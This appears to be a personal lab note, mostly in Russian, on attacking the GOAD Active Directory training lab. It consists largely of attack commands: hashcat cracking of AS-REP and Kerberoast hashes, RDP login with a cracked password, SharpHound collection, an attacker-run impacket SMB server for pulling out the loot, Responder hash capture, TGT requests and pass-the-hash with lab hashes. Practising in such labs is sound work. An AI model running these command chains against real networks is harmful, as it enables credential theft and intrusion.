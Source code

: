 hashcat -m 18200 hashBRANDON.txt /usr/share/wordlists/rockyou.txt
[[Goad/pass+log|pass+log]]

hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
Ломаем сразу kerberoasting.hashes так как прошлой командой сохранили их (cme ...... --kerberoasting KERBEROASTING)
Из трех хешей сломался только jon.snow [[Goad/pass+log|pass+log]]


xfreerdp /v:192.168.56.11 /u:jon.snow /p:iknownothing /d:north /w:1900 /cert-ignore

закидываем sharphound
собираем информацию с 3 доменов
sharp.exe -d north.sevenkingdoms.local -c all --zipfilename bloodhound_north.zip

поднимаем smb сервер impacket-smbserver goad ~/Desktop/GOAD -smb2support -username smb -password smb 
передаем полученные зип файлы к себе (cmd= copy \\IP\share-name(goad)\file path-to=-file) через проводник т.к  cmd не дает перекинуть


Запускаем листинер для получения хешей
sudo responder -I tap0
``` 
ПОЛУЧЕНИЕ ТИКЕТА(билета) ПОЛЬЗОВАТЕЛЯ 
 impacket-getTGT north.sevenkingdoms.local/jeor.mormont -aesKey be10f893afa35457fcf61ecc40dc032399b7aee77c87bb71dd2fe91411d2bd50 -dc-ip 192.168.56.11 
 2007  export KRB5CCNAME=jeor.mormont.ccache
 2008  KLIST

```
Получив хеши пользователей [[Сканы и энумерация]] подключаемся к smb .11 ( `impacket-smbclient -hashes aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664 -dc-ip 192.168.56.11 north/jeor.mormont@192.168.56.11` ) и проверяем папки. Находим пароль 
![[Pasted image 20241224122204.png]]

hashcat -m 18200 hashMISSANDEI.txt /usr/share/wordlists/rockyou.txt

